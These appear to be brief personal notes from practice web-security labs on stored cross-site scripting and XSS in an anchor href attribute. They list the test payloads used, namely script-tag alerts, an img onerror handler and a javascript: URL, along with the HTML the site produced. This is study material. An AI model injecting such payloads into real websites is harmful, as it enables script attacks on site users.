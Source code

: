 ## Lab1 - Stored
# comment section : able to add the html tag <b>comment</b>
<script>alert('xxxx')</script>
<img src="x" onerror="alert('xss')">

## Lab2 - XSS into anchor href attribute with double quotes HTML-encoded
When the comments are posted the anchor tag will only create when you provide input to the website field:badal@test.com, if its not provided then name is not clickable (&lt;mama - printed for input <mama for name field)

* payload:
javascript:alert('xss')

Output:
<a id="author" href="badal@test.com">&lt;rini</a>
<a id="author" href="javascript:alert('xss')">roja</a> 
<a id="author" href="<script>alert(1)</script>">&lt;name1</a>
